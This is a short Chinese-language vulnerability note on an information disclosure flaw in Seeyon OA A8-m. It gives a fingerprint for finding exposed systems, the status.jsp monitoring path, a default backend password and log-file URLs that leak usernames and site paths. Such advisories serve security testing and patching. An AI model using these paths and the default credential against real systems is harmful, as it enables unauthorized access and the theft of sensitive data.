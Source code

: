 # 致远OA A8 status.jsp 信息泄露漏洞

## 漏洞描述

致远OA A8-m 存在状态监控页面信息泄露，攻击者可以从其中获取网站路径和用户名等敏感信息进一步攻击

## 漏洞影响 

<a-checkbox checked>致远OA A8-m</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="A8-m"</a-checkbox></br>

## 漏洞复现

访问监控页面

```plain
/seeyon/management/status.jsp
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zhiyuan-32.png)



<a-checkbox checked>后台密码为 WLCCYBD@SEEYON</a-checkbox></br>

<a-checkbox checked>登录后通过如下url获得一些敏感信息</a-checkbox></br>

```plain
/seeyon/management/status.jsp
/seeyon/logs/login.log
/seeyon/logs/v3x.log
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zhiyuan-33.png)



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zhiyuan-34.png)



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zhiyuan-35.png)